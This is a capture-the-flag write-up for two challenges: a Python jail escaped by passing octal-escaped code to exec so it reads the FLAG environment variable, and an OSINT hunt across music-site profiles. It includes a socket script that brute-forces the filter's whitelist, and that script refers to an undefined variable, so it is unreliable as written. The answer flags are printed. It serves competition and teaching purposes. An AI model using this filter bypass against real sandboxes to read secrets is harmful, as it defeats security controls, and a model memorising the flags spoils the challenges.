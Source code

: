 ## Case sensitivity:

### Description

This was a multi-stage challenge that started as a restricted shell and escalated into an incredibly difficult python jail. The jail used a whitelist based filter that blocked nearly every useful function, keyword, and even iterator variables. The final solution was to use the whitelisted `exec` function with a payload where forbidden keywords like `print` and `getenv` were obfuscated using octal escape codes.

### Writeup
We wrote a brute-force script that discovered the whitelist: `PRINT`, `ENVIRON`, `FLAG`, and `exec`. We naturally assumed the solution was `PRINT(ENVIRON['FLAG'])`. However, this produced a NameError. The whitelisted words were a deliberate misdirection—they passed the filter but were useless at runtime.

Brute force script:

```python
import socket
import string
import keyword
import os

# --- Configuration ---
HOST = 'chall_citadel.cryptonitemit.in'
PORT = 32770
TIMEOUT = 3 

candidates = set()
for k in keyword.kwlist:
    candidates.add(k)
for b in dir(__builtins__):
    candidates.add(b)
for o in dir(os):
    candidates.add(o)
for p in string.printable:
    if not p.isspace():
        candidates.add(p)
wordlist = sorted(list(candidates))
found_words = []
total_words = len(wordlist)

print(f"[*] Starting comprehensive brute-force with {total_words} candidates...")

for i, word in enumerate(wordlist):
    # print progress every 100 words
    if (i + 1) % 100 == 0:
        print(f"[*] Testing... ({i + 1}/{total_words})")
    
    for attempt in words_to_try:
        if attempt in found_words:
            continue
            
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(TIMEOUT)
                s.connect((HOST, PORT))
                s.recv(4096)  # Read banner
                
                payload = attempt + '\n'
                s.sendall(payload.encode())
                
                response = s.recv(4096).decode(errors='ignore')
                
                if "not allowed!" not in response:
                    if attempt not in found_words:
                        print(f"[+] Found whitelisted word: {attempt}")
                        found_words.append(attempt)

        except socket.timeout:
            pass # Ignore timeouts, just means the server is slow
        except Exception:
            pass # Ignore other connection errors

print("\n[*] --- Scan Complete ---")
if found_words:
    print(f"[*] Whitelisted words found: {', '.join(sorted(found_words))}")
else:
    print("[*] No whitelisted words found from the comprehensive list.")
```


The vulnerability was a classic keyword filter bypass. The `clean()` function scanned the string argument passed to `exec` for forbidden words. The solution was to build the payload using characters the filter wouldn't recognize, but that the Python interpreter would correctly parse. We used octal escape codes to construct the payload `print(getenv('FLAG'))`.

    \160\162\151\156\164  ->  `print`

    \147\145\164\145\156\166  ->  `getenv`

    \106\114\101\107      ->  `FLAG`

final command: `exec('\160\162\151\156\164(\147\145\164\145\156\166(\'\106\114\101\107\'))')`

FLAG: `citadel{d34th_d035_n07_fr33_y0u_fr0m_7h3_gu17ar15t}`


## The Sound of Music:

### Description

🗼OSINT pt2: citadweller had a newfound interest in tracking the music they last listened to and posting ratings of new albums on various online platforms.
The flag is hidden in these digital footprints across music platforms and split into three segments. You will need to find all three to uncover the complete code and move on to the next floor.

### Writeup

A well known music tracking website is Last.fm. Searching for "citadweller" on Last.fm leads to the profile: https://www.last.fm/user/citadweller.
There we found the first part of the flag.
Next we ventured to rateyourmusic.com, a popular music rating site. Searching for "citadweller" there led us to the profile: https://rateyourmusic.com/~citadweller.
There we found the second part of the flag.
It also had a link to citadweller's spotify profile. There it had a public playlist with the third part of the flag in the description.

FLAG: `citadel{c0mputers_st0pped_exchang1ng_1nf0rmat10n_n_started_shar1ng_st0r1es_n_then_they_were_n0where_t0_be_f0und}`
